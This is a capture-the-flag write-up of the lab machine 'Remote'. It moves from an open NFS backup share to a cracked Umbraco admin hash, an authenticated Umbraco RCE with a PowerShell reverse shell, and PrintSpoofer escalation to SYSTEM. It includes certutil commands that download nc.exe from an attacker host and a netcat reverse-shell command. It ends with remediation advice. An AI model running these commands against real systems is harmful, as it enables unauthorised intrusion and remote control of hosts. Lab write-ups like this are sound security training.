Remote
Remote hides its foothold in an exposed NFS share. The share holds a full Umbraco
site backup, and inside it the Umbraco database (Umbraco.sdf) leaks the admin account's
SHA1 hash, which cracks to a weak password. Those credentials unlock the Umbraco backoffice, where the
old 7.12.4 version has an authenticated RCE, landing a shell as the IIS service account.
That account holds SeImpersonatePrivilege, so a "Potato" attack (PrintSpoofer)
escalates to SYSTEM.
01Enumeration
Full port and service scan first:
$ nmap -Pn -p- --min-rate 5000 10.129.230.172
We work each service in turn:
- FTP (21) allows anonymous login, but logging in (and curling it from outside) turns up an empty directory. Dead end.
- HTTP (80) is an "ACME Widgets" site. Clicking through the pages, reading source,
and Wappalyzer tell us it's Umbraco (ASP.NET CMS) with the backoffice at
/umbraco. We poke the login forms (a contact form leads us to one via Burp), tryadminand junk users, look forrobots.txtand anything in source, and read up on the jQuery UI / moment.js CVEs the stack exposes. None of it is the way in - the login just rejects us without credentials. - SMB (445) via
enum4linux-nggives no null or guest session, but does confirm the host is Windows Server 2019, named REMOTE.
The ports we hadn't touched yet were 111 / 2049, which nmap flagged as
rpcbind and nfs. NFS on a Windows box is unusual and worth a close look.
02Looting the NFS share
List the exported NFS shares:
$ showmount -e 10.129.230.172
/site_backups is exported to everyone - no authentication.Mount it locally and look around:
$ sudo mount -t nfs 10.129.230.172:/site_backups ./Remote-1 -o nolockIt's a complete Umbraco site backup. Web.config confirms the version and (as a bonus) holds
a machineKey, an alternative ViewState-deserialization path we noted but didn't need:

Digging into App_Data, the real prize is the Umbraco database file:

Umbraco.sdf - the embedded SQL CE database, which stores the backoffice users.No need for a special client - strings pulls the credentials straight out, and the trace
logs had already given us the admin's email (admin@htb.local):
$ strings Umbraco.sdf | grep -i admin
admin@htb.local with an SHA1 hash and smith@htb.local alongside it.03Foothold - crack the hash, then Umbraco RCE
We tried hashcat first but our VM has no GPU/OpenCL, so we switched to john,
which cracks the unsalted SHA1 against rockyou instantly:
$ echo 'b8be16afba8c314ad33d812f22a04991b90e2aaa' > hash.txt
$ john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
baconandcheese.Those credentials log straight into the Umbraco backoffice:

admin@htb.local in the Umbraco backoffice.Umbraco 7.12.4 has a well-known authenticated RCE (CVE-2019-25137). We used the noraj Umbraco-RCE exploit, first confirming code execution with a harmless command:
$ python3 ./pkfire.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c ipconfig
ipconfig on the target.To turn that into a shell, we base64-encode a PowerShell reverse shell (UTF-16LE, the format
-EncodedCommand expects), start a listener, and run it through the exploit as
powershell.exe -EncodedCommand ...:
$ echo -n '<reverse-shell>' | iconv -t UTF-16LE | base64 -w0
$ python3 ./pkfire.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c powershell.exe -a '-NoProfile -EncodedCommand <BASE64>'
iis apppool\defaultapppool.04Privilege escalation - SeImpersonate to SYSTEM
First thing on any Windows shell, check the privileges:
PS> whoami /priv
SeImpersonatePrivilege is Enabled - on a service account, that is effectively a direct line to SYSTEM.defaultapppool hold SeImpersonatePrivilege so they can
act on behalf of users who connect to them, which is normal. The abuse: if we can coerce a
SYSTEM-level service into authenticating to something we control, we can impersonate its token and
spawn a process as SYSTEM. The "Potato" tools (PrintSpoofer, JuicyPotato, RoguePotato, GodPotato) all do
this, differing in how they trigger the callback. Seeing SeImpersonate enabled on a
service account basically means privesc is solved - we just pick the variant that fits the Windows
version and open ports. (Full breakdown on the concepts page.)
Our first pick was RogueWinRM - and it did nothing. Re-reading the tool shows us why:
it fakes a WinRM service by listening on port 5985, but nmap showed 5985 is
already in use (WinRM is running). Lesson learned: read the whole exploit before firing it. HackTricks
points us to PrintSpoofer, which abuses the Print Spooler instead and has no such
conflict.
Because PrintSpoofer needs to launch a process that calls back, we staged both a netcat binary and
PrintSpoofer onto the target with certutil:
PS> certutil -urlcache -split -f http://10.10.15.114/nc.exe C:\Windows\Temp\nc.exe
PS> certutil -urlcache -split -f http://10.10.15.114/PrintSpoofer64.exe C:\Windows\Temp\PrintSpoofer64.exe
Start a listener on a fresh port, then have PrintSpoofer launch netcat back to it as SYSTEM:
$ nc -lvnp 4445 # on Kali
PS> C:\Windows\Temp\PrintSpoofer64.exe -c "C:\Windows\Temp\nc.exe 10.10.15.114 4445 -e cmd.exe"
SeImpersonatePrivilege, listens on a named pipe, and CreateProcessAsUser() succeeds.
From SYSTEM, both flags are trivial:
C:\> type C:\Users\Public\Desktop\user.txt # [redacted]
C:\> type C:\Users\Administrator\Desktop\root.txt
root.txt [redacted]. Box owned.05Root cause & remediation
| NFS share exported to everyone | Restrict NFS exports to specific hosts and authenticated users; never export a backup containing secrets to everyone. Keep backups off network-reachable paths entirely. |
| Weak, unsalted password hash | SHA1 is fast and unsalted here, so it falls to a wordlist. Use a slow, salted algorithm (bcrypt/PBKDF2), enforce strong passwords, and rotate any credential that ever touched a backup. |
| Outdated Umbraco (authenticated RCE) 7.12.4 / CVE-2019-25137 |
Patch the CMS to a supported release and restrict backoffice access (network ACLs, MFA) so a single leaked credential isn't instant code execution. |
| SeImpersonate on a service account | The privilege is required for IIS to function, so the real fix is defense in depth: patch Potato vectors, disable the Print Spooler where it isn't needed, and contain the web app so RCE is harder to reach in the first place. |
06Takeaways
Remote is a good reminder to enumerate every service, not just the obvious web port. The whole box opens up through NFS, a service easy to skip past on a Windows host, and the loot is a backup that should never have been reachable. When the web front door is locked, the way in was a side door nobody thought to close.
The privesc half gave us a concrete lesson worth burning into our notes: read the whole exploit before we run it. RogueWinRM silently did nothing because it needs port 5985 free, which the nmap scan had already told us it wasn't. Matching the tool to the target's actual conditions (Windows version, open ports) is the difference between a working Potato attack and ten minutes of confusion.
And the pattern worth burning in: the instant whoami /priv shows SeImpersonate
enabled on a service account, root is basically a formality.